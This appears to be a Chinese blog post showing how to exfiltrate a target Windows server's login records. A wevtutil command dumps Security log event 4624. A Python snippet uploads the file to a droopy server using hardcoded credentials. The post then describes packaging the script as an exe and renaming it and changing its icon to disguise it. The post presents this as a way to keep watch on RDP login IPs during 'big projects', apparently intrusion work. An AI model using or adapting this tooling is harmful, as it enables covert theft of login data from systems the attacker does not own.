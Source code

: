 ```yaml
---
title: droopy
description: droopy
categories:
 - tools
 - python
tags: 
 - python
---
```


python写的一个文件上传功能的Web服务器

[源码](http://stackp.online.fr/wp-content/uploads/droopy)

![1594886013](https://yui77111.github.io/assets/images/article/droopy/1594886013.jpg)

我们用到的参数有-d指定上传路径、-a指定访问401验证账号密码

![1594888077](https://yui77111.github.io/assets/images/article/droopy/1594888077.jpg)

![1594888031](https://yui77111.github.io/assets/images/article/droopy/1594888031.jpg)

### 思路

遇到什么大project的时候，经常被要求要获取服务器的3389登录ip，但有时需要的是长时间监控服务器才能获取最新的登录ip，所以这时候就靠自动化

> 获取本地登录事件并保存到文本->通过droopy上传到服务器->后续可以加短信、邮件或wechat推送通知

和ftp的区别在于，ftp的账号密码是写在文件里的，对面拿到exe可以逆向拿到你ftp的账号密码，登录上去看到你服务器上的文件，而droopy即使拿到了401账号密码进去后也只有一个上传功能，虽説不能保证后面会不会爆什么安全漏洞但目前来説还没有问题。

### wevtutil获取登录事件

获取事件ID4624并保存到logins.txt里，4624为登录成功日志，多事件ID可用or分隔

```
wevtutil qe Security "/q:*[System [(EventID=4624)]]" /rd:true /f:text > "logins.txt"
```

### python

```python
class myupload():
    def __init__(self,url):
        self.url = url

    def upload(self,upload_file):
        files = {'upfile':(upload_file.split(sep)[-1],open(upload_file,'rb'),'text/plain',{})}
        request('POST',self.url,data=None,files=files,auth=('thomas','thomastom'))
```

### 效果

![1594889003](https://yui77111.github.io/assets/images/article/droopy/1594889003.jpg)

![1594889124](https://yui77111.github.io/assets/images/article/droopy/1594889124.jpg)

### 其他

将写好的.py用pyinstaller打包，打包的时候可以-i加个icon图标，再把名改改伪造伪造。

py打包exe体积太大可以通过虚拟环境内打包解决

```python
#建立虚拟环境
pipenv install
#进入虚拟环境
pipenv shell
#安装模块
pip install 小工具.py里面用到的模块
#打包的模块也要安装
pip install pyinstaller
#开始打包
pyinstaller -Fw E:\test\url_crawler.py
```


